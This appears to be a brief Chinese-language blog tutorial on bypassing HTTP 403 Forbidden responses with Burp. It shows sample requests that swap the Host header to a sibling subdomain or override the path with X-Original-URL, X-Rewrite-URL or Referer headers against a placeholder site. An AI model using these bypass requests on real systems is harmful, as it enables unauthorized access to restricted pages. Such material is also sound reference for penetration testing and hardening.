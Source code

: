 

使用burp尝试绕过403拒绝访问

![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/ST1vOJtf_QuDnqr2w6A8GEYKsO51IpTXRyqmOgMbt14.png?raw=true)

# 绕过403的手段
```
使用旁站绕过
# Requset 
  GET /auth/login HTTP/1.1
  Host:www.abc.com
# Response
  HTTP/1.1 403 Forbidden

# Requset 
  GET /auth/login HTTP/1.1
  Host:$xxxx$.www.abc.com
# Response
  HTTP/1.1 200 ok
将主机名替换

覆盖url绕过
# Requset 
  GET /auth/login HTTP/1.1
# Response
  HTTP/1.1 403 Forbidden

# Requset 
  GET / HTTP/1.1
  X-Original-URL：/auth/login
# Response
  HTTP/1.1 200 ok
还有：X-Rewrite-URL: /auth/login  ReFerer：http://ip/auth/login

```